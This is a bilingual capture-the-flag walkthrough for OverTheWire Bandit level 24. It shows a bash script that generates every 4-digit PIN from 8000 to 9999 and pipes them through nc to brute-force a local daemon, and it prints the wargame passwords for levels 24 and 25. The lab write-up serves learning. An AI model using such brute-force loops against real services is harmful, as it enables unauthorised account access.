 # Level 24
## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le da la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN excepto revisando todas las 10000 combinaciones, lo que se denomina fuerza bruta.
No es necesario crear nuevas conexiones cada vez.
### Datos de Acceso al nivel
Comandos: [None]
Usuario: bandit24
Contraseña: *VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar* (Nivel 24), *p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d* (Nivel 25)
Servidor: bandit.labs.overthewire.org
Puerto: 2220
### Solución
(Después de haber hecho lo del nivel 24)
```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
mkdir /tmp/jagger
bandit24@bandit:~$ mkdir /tmp/jagger
bandit24@bandit:~$ cd /tmp/jagger
bandit24@bandit:/tmp/jagger$ nano bruteforce.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.
[EN NANO]
#!/bin/bash
passwd="VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"
for i in {8000..9999}
do
        echo $passwd' '$i >> salida.txt
done
[GUARDAR Y SALIR DE NANO]
bandit24@bandit:/tmp/jagger$ chmod 777 bruteforce.sh
bandit24@bandit:/tmp/jagger$ ./bruteforce.sh
bandit24@bandit:/tmp/jagger$ cat salida.txt | nc localhost 30002 >> resultado.txt
bandit24@bandit:/tmp/jagger$ sort resultado.txt | uniq -u
Correct!
Exiting.
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Timeout. Exiting.

C:\Users\gerar>ssh bandit25@bandit.labs.overthewire.org -p 2220
Enter password: p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```
### Notas Adicionales
En este nivel se usó el scripting, el cuál es una manera de crear scripts y ejecutar las instrucciones de un proceso que queramos ejecutar, la idea de este script es el de hacer "bruteforce" para adivinar de manera bruta cuál es el password, guiada por una sintaxis simple. 
### Referencias
https://overthewire.org/wargames/bandit/bandit25.html